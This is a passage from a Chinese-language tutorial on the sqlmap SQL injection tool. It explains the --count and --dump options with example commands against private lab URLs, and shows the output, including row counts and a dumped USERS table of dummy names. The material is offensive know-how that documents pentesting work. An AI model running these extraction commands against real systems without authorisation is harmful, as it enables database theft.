 ```
[6 columns]
+----------+----------+
| Column   | Type |
+----------+----------+
| date | datetime |
| browser  | text |
| cid  | int(11)  |
| hostname | text |
| ip   | text |
| referer  | text |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type  |
+---------+---------------+
| id  | int(11)   |
| name| varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```

**获取表中数据个数**

参数：`–count`

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个`Microsoft SQL Server`例子：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table  | Entries |
+----------------+---------+
| dbo.users  | 4   |
| dbo.users_blob | 2   |
+----------------+---------+
```

**获取整个表的数据**

参数：`–dump,-C,-T,-D,–start,–stop,–first,–last`

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取真个表的所有内容。

使用`-D,-T`参数指定想要获取哪个库的哪个表，不使用-D参数时，默认使用当前库。

列举一个`Firebird`的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME|
+----+--------+------------+
| 1  | luther | blisset|
| 2  | fluffy | bunny  |
| 3  | wu | ming   |
| 4  | NULL   | nameisnull |
```